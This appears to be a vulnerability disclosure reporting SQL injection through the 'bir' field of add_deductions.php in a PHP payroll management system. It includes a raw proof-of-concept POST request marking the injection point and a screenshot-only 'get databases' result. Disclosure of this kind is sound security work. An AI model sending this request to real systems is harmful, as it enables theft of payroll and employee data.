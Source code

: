 # payroll-management-system-in-php has sql injection in add_deductions.php

## supplier 
https://code-projects.org/payroll-management-system-in-php-with-source-code/
## Vulnerability parameter
add_deductions.php

## describe

An unrestricted SQL injection attack exists in payroll-management-system in add_deductions.php. The parameters that can be controlled are as follows: $bir. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of   $birparameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/857c4c8b-7184-4be0-a7f1-ae35abb5b9f9)



## POC

```
POST /add_deductions.php HTTP/1.1
Host: payroll
Content-Length: 75
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://payroll
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://payroll/home_employee.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=85u4m47klj7ldjr47mclti8mr6
Connection: close

deduction_id=1&philhealth=2&bir=3*&gsis=4&pag_ibig=5&loans=6
```

**Result**

get databases 

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
